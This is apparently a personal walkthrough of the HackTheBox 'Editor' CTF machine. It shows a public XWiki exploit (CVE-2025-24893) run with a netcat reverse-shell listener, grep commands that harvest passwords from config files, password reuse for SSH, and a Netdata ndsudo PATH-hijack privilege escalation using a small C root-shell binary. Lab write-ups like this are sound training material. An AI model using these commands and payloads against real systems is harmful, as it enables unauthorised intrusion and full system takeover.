# Editor CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Editor** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Editor). 
---

scanning 3 open ports 22, 80 and 8080





on port 8080 we see Xwiki page



we can check the version: `2.1`



I found some exploit and CVE associated with this version

```
https://github.com/hackersonsteroids/cve-2025-24893
```

we clone python script and then run 


```
$ git clone https://github.com/hackersonsteroids/cve-2025-24893.git
$ cd cve-2025-24893
$ chmod +x exploit.py
$ ./exploit.py editor.htb:8080 10.10.14.16 7777

and we also need a listener 
$ nc -lvnp 7777
```



we gained access as xwiki



we can check `hibernate.cfg.xml` file for xwiki because there is a lot of info about configuration

```
/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
```

we can use these commands to find usernames and password in `/usr/lib/xwiki/WEB-INF` directory



```
$ grep -R "username" . 2>/dev/null
$ grep -R "password" . 2>/dev/null
```





we found some passsord

now we can test this password for user `oliver` that i found in `/home`

it works we have ssh access as oliver and user flag



now we we need to look for privilage escalation factor

we see few open port



by testing the open ports we see something running on port 19999



we can use ssh to forward a port

```
ssh -L 19999:127.0.0.1:19999 oliver@IP
```
now we can access editor dashboard



we can also check the version of this software, in top right corner we see danger icon suggesting some issues



we see that this version is also outdated we can search for `netdata 1.45.2 exploit `


and we found some CVE here:
```
https://securityvulnerability.io/vulnerability/CVE-2024-32019
```



here is a PoC script for this CVE-2024-32019

```
https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation
```

we need to replicate steps from the PoC

first we create c binary and we send it to machine

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}

and then
$ gcc nvme.c -o nvme
```

after transfering the binary we follow the instructions

```
$ mkdir -p /tmp/fakebin
$ mv nvme /tmp/fakebin/
$ chmod +x /tmp/fakebin/nvme 
$ export PATH=/tmp/fakebin:$PATH
$ which nvme
/tmp/fakebin/nvme
$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```



now we should get root shell



we got root flag

# MACHINE PWNED
